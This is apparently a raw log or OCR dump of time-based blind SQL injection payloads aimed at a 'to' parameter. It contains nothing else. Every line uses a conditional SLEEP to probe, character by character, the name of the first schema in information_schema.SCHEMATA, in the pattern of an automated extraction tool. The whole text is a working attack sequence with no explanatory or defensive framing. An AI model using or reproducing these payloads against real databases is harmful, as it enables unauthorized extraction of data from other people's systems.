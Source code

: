 {to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,6,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)>96,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,6,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)=112,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,6,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)>112,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,6,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)=104,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,6,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)>104,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,6,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)=108,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,6,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)>108,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,6,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)=110,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,6,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)>110,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,6,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)=109,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,7,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)=64,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,7,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)>64,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,7,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)=96,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,7,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)>96,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,7,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)=112,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,7,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)>112,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,7,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)=104,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,7,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)>104,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,7,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)=100,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,7,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)>100,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,7,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)=98,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,7,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)>98,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,7,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)=97,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,8,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)=64,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,8,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)>64,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,8,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)=96,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,8,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)>96,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,8,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)=112,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,8,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)>112,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,8,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)=120,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,8,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)>120,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,8,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)=116,SLEEP(0.155797244898),SLEEP(0))}